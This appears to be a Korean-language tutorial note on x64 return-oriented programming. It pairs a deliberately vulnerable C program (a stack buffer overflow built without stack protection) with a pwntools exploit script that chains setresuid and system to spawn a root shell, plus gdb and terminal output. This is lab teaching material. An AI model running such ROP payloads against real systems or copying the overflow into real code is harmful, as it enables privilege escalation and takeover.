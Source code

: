 ## Concept

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.  

x64의 경우 호출 규약 때문에 피연산자가 매우 중요함.  

x64의 ROP에서 POP 명령의 역할  
1. ESP의 레지스터 값을 증가시켜 함수를 연속적으로 호출
1. 호출할 함수에 전달될 인자 값을 레지스터에 저장

Ex)  
호출할 함수의 1 번째 인자 값 저장: "pop rdi; ret"  
호출할 함수의 2 번째 인자 값 저장: "pop rsi; ret"  
호출할 함수의 1,3 번째 인자 값 저장: "pop rdi; pop rdx; ret"

## **Proof of Concept**

```c
// Vuln Code
// gcc rop.c -o rop -ldl -fno-stack-protector 
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3c0:	0x4141414141414141	0x000000000040070a
0x7fffffffe3d0:	0x00000000004007e0	0x00007ffff7829830
0x7fffffffe3e0:	0x0000000000000000	0x00007fffffffe4b8
```

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

p = process('./rop')
#gdb.attach(p)
print(p.recvline())
printf_addr = int(p.recvline().split(' ')[3],16)
print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x55800
system = libBase + 0x45390
setresuid = libBase + 0xcd570
binsh = libBase + 0x18cd57
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_pop_rsi_ret_offset = 0x1150c9

payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libBase + pop_rdx_pop_rsi_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(setresuid)
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './rop': pid 3166
Hello ROP

printf_addr: 140605686425600
[*] Switching to interactive mode
$ id
uid=0(root) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
[https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64](https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64)

